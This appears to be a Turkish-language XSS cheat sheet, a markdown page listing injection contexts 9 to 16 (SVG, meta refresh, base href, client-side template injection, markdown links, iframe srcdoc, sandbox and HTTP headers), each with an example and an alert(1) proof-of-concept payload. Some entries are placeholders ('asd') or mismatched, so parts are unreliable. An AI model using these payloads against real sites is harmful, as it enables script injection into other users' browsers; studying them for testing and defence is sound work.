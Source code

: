 <h1>CONTEXTS</h1>
<br>

<h2>🔹 9. SVG / XML Context</h2>
<h4>SVG veya XML içeriğinde çalıştırma.</h4><br>

📌 Örnek:  
`<svg><circle onload="alert(1)"/></svg>`  
<br>
🎯 Exploit:  
```html
<svg/onload=alert(1)>
```
<br>



<h2>🔹 10. Meta Tag Context</h2>
<h4>HTML içindeki `meta` etiketiyle manipulasyon.</h4><br>

📌 Örnek:  
`<meta http-equiv="refresh" content="0;url=PAYLOAD">`  
<br>
🎯 Exploit:  
```html
javascript:alert(1)"
```
<br>



<h2>🔹 11. Base Href Context</h2>
<h4>Eğer base href="..." elementi kontrol ediliyorsa.</h4><br>

📌 Örnek:  
`<button onclick="PAYLOAD">Click me</button>`  
<br>
🎯 Exploit:  
```html
<base href="javascript://">
<a href="/x">Click</a>
```
Bu durumda /x → javascript://x olur.
<br>
<br>


<h2>🔹 12. Template Injection Context</h2>
<h4>Client-side templating sistemlerinde: Mustache, Handlebars, AngularJS, VueJS.</h4><br>

📌 Örnek:  
```html
<script type="text/template">
  Hello {{user}}
</script>
```
<br><br>
🎯 Exploit:  
```js
{{constructor.constructor("alert(1)")()}}
```
<br>



<h2>🔹 13. Markdown / BBCode Context</h2>
<h4>Input markdown olarak parse edilip HTML'ye dönüşür.</h4><br>

📌 Örnek:  
`[click](javascript:alert(1))`  
<br>
🎯 Exploit:  
```html
![img](javascript:alert(1))
```
<br>



<h2>🔹 14. Iframe Srcdoc Context</h2>
<h4>HTML içeriği iframe içine srcdoc olarak yazılır.</h4><br>

📌 Örnek:  
`document.body.innerHTML = location.hash;`  
<br>
🎯 Exploit:  
```html
#<img src=x onerror=alert(1)>
```
<br>



<h2>🔹 15. Sandboxed Context (Controlled via CSP / Sandbox attr)</h2>
<h4>iframe[sandbox], CSP gibi güvenlik kontrollerinin yanlış yapılandırılması sonucu ortaya çıkar.</h4><br>

📌 Örnek:  
`asd`  
<br>
🎯 Exploit:  
```html
<iframe sandbox="allow-scripts" srcdoc="<script>alert(1)</script>"></iframe>
```
<br>



<h2>🔹 16. HTTP Header Context</h2>
<h4>Bazı XSS'ler response header içeriğiyle tetiklenir.</h4><br>

📌 Örnek:  
`Location: javascript:alert(1)`
<br>
🎯 Exploit:  
```html
asd
```
Ayrıca:  
`Refresh:` `Referer:` `Content-Security-Policy:` injection da olabilir.
